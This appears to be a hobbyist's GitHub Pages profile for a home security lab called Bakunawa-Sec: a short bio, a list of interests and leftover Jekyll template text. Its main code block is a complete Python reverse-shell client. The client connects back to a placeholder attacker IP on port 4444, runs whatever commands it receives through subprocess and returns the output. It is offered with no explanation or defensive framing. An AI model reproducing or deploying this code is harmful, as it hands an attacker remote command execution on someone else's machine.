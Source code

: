 ## Welcome to Jong Pairez GitHub Page

Jong Pairez is a Tech Support with a background in Research and Design. He integrates artistic practice in end-user computing by applying creative approaches with working around technology. He loves listening to Death Metal and enjoys hacking inexpensive single-board-computers to simulate recent vulnerabilities in Enterprise IT Infrastructures. This GitHub page is his simple laboratory for Bakunawa-Sec. 

### Bakunawa-Sec

Bakunawa-Sec is a simple IT solutions laboratory for end user computing. It is also an open-learning space for amateur IT Help Desk who are interested in free and open-source technology. Bakunawa-Sec builds, tests, and deploy tools for fun.

- Home Virtual Laboratory Servers
- Network Engineering
- Experimental Automation Projects
- Software/Hardware Reverse Engineering
- Troubleshooting and Bug Hunting
- IT Service Delivery

Open for collab!

```markdown

##   _   _   _   _   _   _   _   _   _   _   _   _  
##  / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ / \ 
## ( b | a | k | u | n | a | w | a | - | s | e | c )
##  \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ \_/ 
##

#!/bin/bash/py
# Connect Back

import socket
import subprocess

SERVER_HOST = "<IP Address of Attacker>"
SERVER_PORT = 4444
BUFFER_SIZE = 1024

#Create socket and connect to the server
s = socket.socket()

#Connect to server (banana one)
s.connect((SERVER_HOST, SERVER_PORT))

#Receive check message
message = s.recv(BUFFER_SIZE).decode()
print("Server:", message)

#The LOOP
while True:
    #Receive command from server
    command = s.recv(BUFFER_SIZE).decode()
    if command.lower() == "exit":
        #If the command is exit, just break out from the loop
        break

    #Execute command and retrieve results
    output = subprocess.getoutput(command)

    #Send results back to the server (banana-one)
    s.send(output.encode())

#Close client connection
s.close()

[Link](url) and ![Image](src)
```
For more details see [GitHub Flavored Markdown](https://guides.github.com/features/mastering-markdown/).

`This is a code`

### Jekyll Themes

Your Pages site will use the layout and styles from the Jekyll theme you have selected in your [repository settings](https://github.com/bakunawa-ops/Bakunawa-Sec/settings). The name of this theme is saved in the Jekyll `_config.yml` configuration file.

### Support or Contact

Having trouble with Pages? Check out our [documentation](https://help.github.com/categories/github-pages-basics/) or [contact support](https://github.com/contact) and we’ll help you sort it out.
